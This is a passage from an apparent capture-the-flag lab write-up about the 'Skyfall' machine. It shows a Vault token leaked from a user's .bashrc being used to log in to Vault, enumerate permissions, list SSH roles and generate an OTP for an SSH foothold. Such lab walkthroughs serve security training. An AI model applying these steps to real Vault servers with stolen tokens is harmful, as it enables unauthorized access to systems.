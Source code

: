 Per documentation, in order to connect to the target system with Vault over ssh, two environment variables need to be configured:

```bash
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="VAULT TOKEN LEAKED FROM ASKYY'S .bashrc"
```

Once the above environment variables have been exported, connect to the target machine with the following command:

```bash
vault login $VAULT_TOKEN
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/vaultlogin.png" alt="">
  <figcaption>Successful login.</figcaption>
</figure>

Per this [post]( https://stackoverflow.com/questions/70234255/how-to-identify-what-paths-can-be-accessed-with-what-capabilities-in-hashicorp-v), it's possible to enumerate what resources we can access with the current token as well as the actions that can be applied to those resources with this command:

```bash
vault read sys/internal/ui/resultant-acl --format=json|jq -r .data
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/vaultreadsys.png" alt="">
  <figcaption></figcaption>
</figure>

It's possible to use **list** argument for ssh:

```bash
vault list ssh/roles
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/vaultlistssh.png" alt="">
  <figcaption>Revealed roles for SSH users with configured OTP authentication.</figcaption>
</figure>

Use the role **dev_otp_key_role** to login via ssh as *askyy*:

```bash
vault ssh -role dev_otp_key_role -mode otp askyy@<IP ADDRESS>
```

When the system prompts for password, copy and paste the generated OTP key to authenticate:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/askyylogin.png" alt="">
  <figcaption>Foothold established.</figcaption>
</figure>
